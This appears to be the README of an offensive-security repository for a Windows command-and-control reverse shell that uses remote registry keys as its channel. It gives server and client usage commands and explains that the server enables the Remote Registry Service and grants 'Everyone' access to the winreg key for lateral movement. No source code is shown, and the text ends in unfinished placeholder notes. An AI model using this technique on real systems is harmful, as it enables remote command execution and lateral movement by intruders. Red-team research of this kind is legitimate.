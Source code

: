 # Everything Is A(n asynchronous) Reverse Shell

This repository is made to explore some uncommon ways for establishing command and control (c2) on Microsoft Windows systems. 

The reverse shells in this repository are asynchronous just like Cobalt Strikes shells. Asyncronous, meaning that the client and server will not communicate all the time like a standard netcat/meterpreter reverse shell. Instead, the client will check-in for any new commands from the server. If a command is found, it will execute it and post the output back to the server. The checkin-interval is a sleep timer just like Cobalt Strikes. 

At this moment, the repository only has a C2 using Windows Registry keys, but more will hopefully be added in the future. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows for certain users to read, write and/or delete registry keys on remote systems using the WinReg Protocol (MS-RRP), which is build on top of the RPC protocol. (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78) Using custom code, it is possible to create a client-server relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, should only be suitable for lateral movement on local networks. 

### Usage:
**Server (listener):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe dc01
>help
sleep 10         Set the sleep time to 10
cmd whoami       Execute whoami
exit             Exit the application gracefully
```
**Client-side:**
```
RegC2Client.exe <host> <Registry name to use>
RegC2Client.exe dc01 ws01
```

### How it works:
When the server starts, the Remote Registry Service is enabled. Then, the registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined name> is created along with the following registry values: cmd, output & sleep. 
Permissions are then set for the user "Everyone" on the newly created registry key and, importantly, the registry key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. 

This ensures that the client can authenticate to the server and has access to the relevant registry values. On exiting the server, the permissions are removed again. 

### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 

